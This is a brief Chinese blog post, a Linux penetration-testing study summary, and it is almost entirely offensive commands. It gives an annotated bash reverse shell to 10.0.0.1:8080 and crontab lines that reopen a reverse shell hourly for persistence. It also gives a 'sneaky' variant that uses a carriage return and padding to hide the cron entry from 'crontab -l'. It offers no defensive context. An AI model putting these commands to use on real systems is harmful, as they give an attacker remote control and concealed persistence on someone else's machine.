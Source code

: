 ```yaml
---
title: 学习总结篇—Linux
date: 2019-11-20 00:20:02
author: dylan
top: false
cover: false
summary: 学习总结篇—Linux
password: 9f77c4517ffa5375fb7f06c0209facae53fd5e4b7b88986eb0c11591810b2dbe
categories: summary
tags: 
    - Linux
    - summary
---
```


# 前言

 Linux渗透测试总结

# bash

```
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

`bash -i`                   #交互的 shell 
`&`                         #标准错误输出到标准输出
`/dev/tcp/10.0.0.1/8080`    #建立 socket ip port
`0>&1`                      #标准输入到标准输出
```

```
(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
```

## 猥琐版

```
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
```
详细介绍：
[https://github.com/dylan903/security_circle_2017/blob/master/15288418585142.md](https://github.com/dylan903/security_circle_2017/blob/master/15288418585142.md)

# 参考文章

[史上最强内网渗透知识点总结](https://blog.csdn.net/qq_33020901/article/details/80547964)
